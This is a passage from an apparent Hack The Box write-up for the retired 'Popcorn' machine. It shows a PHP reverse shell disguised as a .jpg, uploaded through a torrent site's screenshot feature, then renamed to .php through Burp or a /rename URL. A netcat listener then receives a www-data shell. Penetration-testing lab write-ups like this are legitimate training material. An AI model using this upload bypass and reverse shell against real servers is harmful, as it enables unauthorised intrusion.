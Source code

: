 ```

root@kali:~/Desktop/hackTheBox.eu/retiredMachine/Linux/Popcorn# cp /usr/share/laudanum/php/php-reverse-shell.php .

root@kali:~/Desktop/hackTheBox.eu/retiredMachine/Linux/Popcorn# mv php-reverse-shell.php php-reverse-shell.php.jpg

root@kali:~/Desktop/hackTheBox.eu/retiredMachine/Linux/Popcorn# ls
kali-linux-2020.1-installer-netinst-amd64.iso.torrent  Popcorn.pdf
php-reverse-shell.php.jpg                              solution.md
```
after uploading the torrent file click on 'edit this torrent' to upload a screenshot  
it only accepts images so after changing the extension it was accepted but we want the php extension for it to get us a shell  
so we intercept the requests in burp and change the extension of the php-reverse-shell from jpg to php (before uploading the file don't forget to change the ip address to your machine's ip address)  

**rather than changing the extension by this clever way of intercepting the request in burp we can also use /rename**
```
http://10.10.10.6/rename/index.php?filename=/var/www/torrent/upload/0268093e046d13a58da18116106aa429d648d421.gif&newfilename=/var/www/torrent/upload/shell.php
```

after uploading the php-reverse-shell successfully with php extension, start listening on the port mentioned in the uploaded file and then visited /torrent/upload and click on the php file to get reverse shell  
```
root@kali:~# nc -nlvp 1234                                                                                                                                                                                  [12/12]
listening on [any] 1234 ...                                                                                                                                                                                        
connect to [10.10.14.57] from (UNKNOWN) [10.10.10.6] 54964                                                                                                                                                         
Linux popcorn 2.6.31-14-generic-pae #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686 GNU/Linux                                                                                                                     
 08:51:44 up  5:27,  0 users,  load average: 0.00, 0.00, 0.00                                                                                                                                                      
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT                                                                                                                                               
uid=33(www-data) gid=33(www-data) groups=33(www-data)                                                                                                                                                              
/bin/sh: can't access tty; job control turned off                                                                                                                                                                  
$ ls                                                                                                                                                                                                               
bin                                                                                                                                                                                                                
boot                                                                                                                                                                                                               
cdrom                                                                                                                                                                                                              
```